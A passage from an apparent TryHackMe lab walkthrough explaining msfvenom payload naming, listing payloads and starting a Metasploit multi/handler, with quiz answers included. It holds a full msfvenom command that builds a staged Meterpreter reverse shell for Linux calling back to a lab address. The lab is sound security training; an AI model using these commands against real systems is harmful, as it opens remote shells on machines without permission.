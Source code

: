 As staged payloads are denoted with another forward slash (`/`).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

`windows/x64/meterpreter/reverse_tcp`

A Linux 32bit stageless Meterpreter payload would look like this:

`linux/x86/meterpreter_reverse_tcp`

Aside from the `msfconsole` man page, the other important thing to note when working with msfvenom is:

`msfvenom --list payloads`

This can be used to list all available payloads, which can then be piped into `grep` to search for a specific set of payloads. For example:

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/5526f628-09a9-4088-96d8-16c8d2355b8c)

This gives us a full set of Linux meterpreter payloads for 32bit targets.
# Answer the questions below
Generate a staged reverse shell for a 64 bit Windows target, in a `.exe` format using your TryHackMe tun0 IP address and a chosen port.

Which symbol is used to show that a shell is stageless? `_`

What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is `elf` and the output filename should be `shell`. `msfvenom -p linux/x64/meterpreter/reverse_tcp -f elf -o shell LHOST=10.10.10.5 LPORT=443`

## Task 10 Metasploit multi/handler
Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

 1. Open Metasploit with `msfconsole`

 2. Type `use multi/handler`, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the `options`command:

![image](https://github.com/AChen1719/tryhackme-walkthrough/assets/99749834/7a28b001-b2bc-42dd-b8a6-ef4f79dea767)

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will; it must be told a specific address to listen with (when using TryHackMe, this will be your tun0 address). We set these options with the following commands:

 • set PAYLOAD <payload>
 
